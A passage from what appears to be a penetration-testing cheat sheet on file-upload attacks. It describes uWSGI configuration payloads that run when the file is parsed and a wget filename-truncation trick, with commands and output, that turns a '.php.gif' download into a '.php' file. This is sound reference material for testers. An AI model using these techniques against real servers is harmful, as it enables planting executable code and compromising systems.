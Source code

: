 The execution of the payload occurs during the parsing of the configuration file. For the configuration to be activated and parsed, the uWSGI process must either be restarted (potentially after a crash or due to a Denial of Service attack) or the file must be set to auto-reload. The auto-reload feature, if enabled, reloads the file at specified intervals upon detecting changes.

It's crucial to understand the lax nature of uWSGI's configuration file parsing. Specifically, the discussed payload can be inserted into a binary file (such as an image or PDF), further broadening the scope of potential exploitation.

## **wget File Upload/SSRF Trick**

In some occasions you may find that a server is using **`wget`** to **download files** and you can **indicate** the **URL**. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, **this check can be bypassed.**\
The **maximum** length of a **filename** in **linux** is **255**, however, **wget** truncate the filenames to **236** characters. You can **download a file called "A"\*232+".php"+".gif"**, this filename will **bypass** the **check** (as in this example **".gif"** is a **valid** extension) but `wget` will **rename** the file to **"A"\*232+".php"**.

```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s      

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```

Note that **another option** you may be thinking of to bypass this check is to make the **HTTP server redirect to a different file**, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This **won't work** **unless** wget is being used with the **parameter** `--trust-server-names` because **wget will download the redirected page with the name of the file indicated in the original URL**.
